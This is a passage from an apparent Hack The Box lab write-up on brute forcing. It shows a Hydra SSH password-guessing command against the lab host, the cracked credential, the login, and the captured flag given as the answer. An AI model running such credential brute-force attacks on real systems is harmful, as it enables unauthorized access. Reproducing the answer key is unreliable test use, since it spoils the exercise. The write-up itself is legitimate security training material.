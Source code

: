 Brute force:

```
┌──(kali㉿kali)-[~/username-anarchy]
└─$ hydra -l b.gates -P william.txt -u -f ssh://157.245.33.77:32626 -t 4
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-09 06:37:58
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 13093 login tries (l:1/p:13093), ~3274 tries per task
[DATA] attacking ssh://157.245.33.77:32626/
[32626][ssh] host: 157.245.33.77   login: b.gates   password: 4dn1l3M!$
[STATUS] attack finished for 157.245.33.77 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-07-09 06:38:14
```

Login:

```
┌──(kali㉿kali)-[~/username-anarchy]
└─$ ssh b.gates@157.245.33.77 -p 32626
The authenticity of host '[157.245.33.77]:32626 ([157.245.33.77]:32626)' can't be established.
ED25519 key fingerprint is SHA256:KDcF5lg81jNEGgdr67bEo+Ui1pmsyHXKnw/ZHPLZCyY.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[157.245.33.77]:32626' (ED25519) to the list of known hosts.
b.gates@157.245.33.77's password: 
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 4.19.0-17-amd64 x86_64)

(...)

b.gates@bruteforcing-2-476470-865f7b6f77-db86m:~$ pwd
/home/b.gates
b.gates@bruteforcing-2-476470-865f7b6f77-db86m:~$ ls
flag.txt  rockyou-10.txt
b.gates@bruteforcing-2-476470-865f7b6f77-db86m:~$ cat flag.txt 
HTB{n3v3r_u53_c0mm0n_p455w0rd5!}
```

**Answer:** `HTB{n3v3r_u53_c0mm0n_p455w0rd5!}`

### Question 2:
![](./attachments/Pasted%20image%2020220709102056.png)
